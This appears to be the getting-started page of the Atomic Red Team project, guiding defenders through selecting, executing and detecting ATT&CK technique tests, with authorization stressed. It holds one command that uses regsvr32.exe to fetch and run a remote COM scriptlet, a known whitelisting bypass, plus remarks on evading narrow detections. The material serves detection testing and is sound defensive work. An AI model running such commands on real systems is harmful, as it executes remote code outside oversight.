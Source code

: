 ```yaml
---
layout: default
---
```


# Getting Started Testing with Atomic Tests

<img style="float: right;" src="https://www.redcanary.com/wp-content/uploads/image2-5.png">

We suggest a phased approach to running a test and evaluating your results:

1. [Select a test](#select-a-test)
2. [Execute Test](#execute-test)
3. [Collect Evidence](#collect-evidence)
4. [Develop Detection](#develop-detection)
5. [Measure Progress](#measure-progress)

## Best Practices

* Be sure to get permission and necessary approval before conducting tests. Unauthorized testing is a bad decision
and can potentially be a resume-generating event.

* Set up a test machine that would be similar to the build in your environment. Be sure you have your collection/EDR
solution in place, and that the endpoint is checking in and active.

* Spend some time developing a test plan or scenario. This can take many forms. An example test plan could be to
execute all the Discovery phase items at once in a batch file, or run each phase one by one, validating coverage as you go.

## Select a test
Select one or more Atomic Tests that you plan to execute. A complete list, ATT&CK matrices, and platform-specific
matrices linking to Atomic Tests can be found here:

- [Complete list of Atomic Tests](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes-Markdown/index.md)
- [Atomic Tests per the ATT&CK Matrix](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Matrices/matrix.md)
- Windows [Tests](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes-Markdown/windows-index.md) and [Matrix](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Matrices/windows-matrix.md)
- macOS [Tests](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes-Markdown/macos-index.md) and [Matrix](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Matrices/macos-matrix.md)
- Linux [Tests](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Indexes-Markdown/linux-index.md) and [Matrix](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/Matrices/linux-matrix.md)

## Execute Test

In this example we will use Technique `T1117 "Regsvr32"` and Atomic Test `"Regsvr32 remote COM scriptlet execution"`. This particular 
test is fairly easy to exercise since the tool is on all Windows workstations by default.

The details of this test, [which are located here](https://github.com/redcanaryco/atomic-red-team/blob/master/atomics/T1117/T1117.md#atomic-test-2---regsvr32-remote-com-scriptlet-execution),
describe how you can test your detection by simply running the below command:

```
regsvr32.exe /s /u /i:https://raw.githubusercontent.com/redcanaryco/atomic-red-team/master/atomics/T1117/RegSvr32.sct scrobj.dll
```

## Collect Evidence

What does your security solution observe?
- You may see a file modification in the user’s profile.
- You may detect network connections made by regsvr32.exe to an external IP.
- There may be an entry in the proxy logs.
- You may observe the scrobj.dll loading on Windows.
- Or you might not observe any behavior on the endpoint or network.

This is why we test! We want to identify visibility gaps and determine where we need to make improvements.

![RC Timeline](https://www.redcanary.com/wp-content/uploads/image9-1.png)

![Cb example 1](https://www.redcanary.com/wp-content/uploads/image5-3.png)

![Cb Example 2](https://www.redcanary.com/wp-content/uploads/image7-2.png)

## Develop Detection

So you executed the test and none of your defenses fired – that’s why we test! Based on your observations
and detection capabilities, it is time to use what you have to try to detect this event in your environment.

![Unwind Data](https://www.redcanary.com/wp-content/uploads/image8-1.png)

Once the detection is built, it is time to validate that the detection is working and that it is appropriately
tuned. If you were to write your detection too broadly and “detect” every regsvr32.exe without any suppression,
you are going to be digging out from a mountain of false positives. But if you write it too narrow and it
only detects regsvr32.exe with the exact command line `/s /u /i` then all an attacker has to do is slightly
modify their command line to evade your detection.

## Measure Progress

One of the goals is to try to measure your coverage/capabilities against the ATT&CK Matrix and to identify where you may have gaps. Roberto Rodriguez ([@cyb3rWar0g](https://twitter.com/Cyb3rWard0g)) provided [this spreadsheet](https://github.com/Cyb3rWard0g/ThreatHunter-Playbook/blob/master/metrics/HuntTeam_HeatMap.xlsx) and complementary [blog post](https://cyberwardog.blogspot.com/2017/07/how-hot-is-your-hunt-team.html) showcasing how to determine where you stand within your organization in relation the MITRE ATT&CK Matrix.

![HeatMap](https://www.redcanary.com/wp-content/uploads/image4-5.png)

![Measure](https://www.redcanary.com/wp-content/uploads/image6-2.png)
